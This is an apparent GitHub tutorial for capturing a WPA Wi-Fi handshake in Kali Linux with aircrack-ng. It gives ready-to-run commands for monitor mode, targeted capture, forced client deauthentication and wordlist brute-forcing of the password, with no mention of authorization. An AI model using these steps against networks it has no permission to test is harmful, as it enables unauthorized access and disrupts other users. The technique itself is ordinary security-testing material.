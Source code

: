 
# Capturing a Wi-Fi Handshake in Kali Linux

## Prerequisites
- A [wireless adapter](https://www.kali.org/docs/nethunter/wireless-cards/) that supports **monitor mode** and **packet injection**.
- The `aircrack-ng` suite (pre-installed in Kali Linux).
- else  install by run below command
```
 sudo apt install aircrack-ng 
 ```
---

## Steps to Capture the Handshake

### 1. Enable Monitor Mode
Run the following commands to start monitor mode:

```bash
sudo airmon-ng check kill  # Kill interfering processes
sudo airmon-ng start wlan0  # Enable monitor mode
```

Replace `wlan0` with your interface name (you can check using `ifconfig` or `iwconfig`).

Your interface will usually be renamed to `wlan0mon`.

---

### 2. Scan for Wi-Fi Networks
To scan for nearby networks, use `airodump-ng`:

```bash
sudo airodump-ng wlan0mon
```

Look for the **BSSID** (MAC address) and **channel (CH)** of the target network.

---

### 3. Capture the Handshake
Once you have identified the target network, run the following command to capture packets and the handshake:

```bash
sudo airodump-ng -c <channel> --bssid <BSSID> -w handshake wlan0mon
```

- Replace `<channel>` with the Wi-Fi channel number.
- Replace `<BSSID>` with the network’s MAC address.
- `-w handshake`: Saves the captured packets in a file named `handshake-01.cap`.

Wait for a **handshake to appear** (this happens when a device connects or reconnects).

---

### 4. Deauthenticate a Client (Optional)
To force a device to reconnect and capture the handshake, run:

```bash
sudo aireplay-ng -0 5 -a <BSSID> -c <Client MAC> wlan0mon
```

- `-0 5`: Sends 5 deauthentication packets.
- `-a <BSSID>`: Target AP MAC address.
- `-c <Client MAC>`: Target client device MAC (use `airodump-ng` to find it).

---

### 5. Verify Handshake Capture
Check if the handshake was captured:

```bash
aircrack-ng handshake.cap -w /path/to/wordlist.txt
```

Look for `[ WPA handshake: <BSSID> ]` at the top of the output.

---

## 6.Bruteforce using aircrack-ng
```bash
sudo aircrack-ng <your_capture_file.cp> -w <possible_passwordlist.txt>
```

